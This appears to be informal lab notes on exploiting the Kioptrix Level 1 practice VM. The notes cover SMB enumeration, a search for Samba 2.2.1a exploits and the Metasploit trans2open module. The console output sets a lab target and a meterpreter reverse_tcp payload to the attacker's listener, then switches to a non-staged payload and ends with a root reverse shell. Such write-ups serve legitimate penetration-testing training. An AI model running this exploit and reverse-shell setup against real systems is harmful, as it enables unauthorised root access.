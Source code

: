 Exploit SMB

Exploit kioptrix level 1

ATTACKING SMB

-------------------------------------------------------
From Enumeration

port 139 (SMB)
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
Unix (Samba 2.2.1a)

Google > Samba 2.2.1a exploit
exploit DB
https://www.exploit-db.com/exploits/10
https://www.exploit-db.com/exploits/7

rapid 7 (metasploit)
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/
NOTE
Description

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since theyapparently do not allow anonymous access to IPC
WE tested and DID have anon access to IPC. CHECK!


---------------------------------------------------------------------------------

Victim - 192.168.247.129
attacker - 192.168.247.128



SEARCHSPLOIT <query>

searchspolit samba 2.2



Probable a 'trans2open' attack

BOOT UP METASPLOIT

search for 'trans2open' inside metasploit >> during enum a rapid 7 link was identified.



During enum it was identifed the system was running redhat > thus linux so option 1 for linux x86

view options

set RHOSTS <victim IP>

check IP was set

msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
t
RPORT 139 yes The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.247.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port


Exploit target:

Id Name
-- ----
0 Samba 2.2.x - Bruteforce


msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.247.129
RHOSTS => 192.168.247.129
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.247.129 yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
t
RPORT 139 yes The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.247.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port


Exploit target:

Id Name
-- ----
0 Samba 2.2.x - Bruteforce



NOTE >>> Default meterpreter ports will prob get picked up...


Run or exploit



Sessions dieing > time to cancel and check options


Second time checking options after payload did not work meterpreter offeres payload options



Current paylaod is staged >>> see the ///



change payload to non staged > check with options

exploit!



Reverese shell with root access!!!!
